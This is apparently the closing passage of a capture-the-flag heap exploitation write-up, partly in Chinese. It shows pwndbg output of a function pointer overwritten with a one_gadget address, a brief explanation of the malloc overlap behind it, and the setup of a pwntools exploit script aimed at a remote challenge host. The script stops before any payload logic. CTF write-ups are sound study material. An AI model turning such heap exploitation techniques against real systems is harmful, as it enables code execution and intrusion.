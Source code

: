 ```

heap list        = [*0, 1, 2]
free list (0x20) = []

magic_library = one_gadget
pwndbg> x/20gx 0x602110
0x602110 <magic_library>:       0x00007f2cdfa4f29e      0x0000000000000000

??? done
-----------------------------------------------------------------------------
```

为什么我改 4 会 变到 magic_library = one_gadget?
因为 malloc 0x8 -> 4 from magic_library 
# 4.0 FLAG 
local not in remote
# 5.0 FINAL SCRIPT 
```python
# -*- coding: utf-8 -*-
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
# context.arch='amd64'
context.os = "linux"

pc = "./task_patched"

libc  = ELF('./libc.so.6', checksec=False)
ld = ELF("ld-2.27.so")
exe = context.binary = ELF(pc)



scripts = """
set resolve-heap-via-heuristic force
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == 'l':
        r= process(pc)
        elf = ELF(pc)
    else:
        r=remote("34.45.81.67",16006)
        elf = ELF(pc)
 

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)

s = lambda *a, **k: r.send(*a, **k)
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
```